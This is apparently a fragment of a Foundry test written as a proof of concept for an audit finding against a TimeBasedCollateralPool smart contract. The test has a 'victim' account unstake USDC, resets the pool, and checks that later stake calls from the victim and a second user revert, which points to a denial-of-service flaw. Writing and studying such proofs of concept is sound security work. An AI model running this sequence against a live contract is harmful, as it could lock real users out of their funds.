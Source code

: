 ```
    TimeBasedCollateralPool.AccountState memory accountTokenState &#x3D; TimeBasedCollateralPool(TimeBasedCollateralPool_contract).getAccountTokenState(victim, USDC); 
    console.log(&quot;accountTokenState: &quot;, victim, accountTokenState.totalUnits, accountTokenState.firstPendingUnstakeEpoch);
    uint256 unstake_amount &#x3D; accountTokenState.totalUnits; 
    console.log(&quot;Victim can unstake amount: &quot;,unstake_amount); 
    
    scenario &#x3D; 1; 
    console.log(&quot;Scenario: &quot;,scenario);
    resetPool(scenario); 

    accountTokenState &#x3D; TimeBasedCollateralPool(TimeBasedCollateralPool_contract).getAccountTokenState(victim, USDC); 
    console.log(&quot;accountTokenState before unstake victim: &quot;,victim);
    console.log(&quot;accountTokenState before unstake accountTokenState.totalUnits: &quot;,accountTokenState.totalUnits);
    console.log(&quot;accountTokenState before unstake accountTokenState.firstPendingUnstakeUnits: &quot;,accountTokenState.firstPendingUnstakeUnits);

    vm.startPrank(victim); 
    console.log(&quot;Step : Victim Unstake from TimeBasedCollateralPool&quot;);
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).unstake(IERC20(USDC), unstake_amount);
    vm.stopPrank(); 
   
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(VictimPrivateKey, amount, victim_nonce++);
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool, stake amount: &quot;,amount);
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
    
    
    vm.warp(1730605189); // Sun Nov 03 2024 03:39:49 GMT+0000
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(VictimPrivateKey, amount, victim_nonce);
   
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool&quot;);
    console.log(&quot;Victim transaction expected to revert&quot;); 
    vm.expectRevert();
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(PrivateKey_2, amount, user2_nonce++);
   
    vm.startPrank(user2);
    console.log(&quot;user2 stake to TimeBasedCollateralPool&quot;);
    console.log(&quot;user2 transaction expected to revert&quot;); 
    vm.expectRevert();
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
   

} 

    function resetPool(uint256 _scenario) public {
```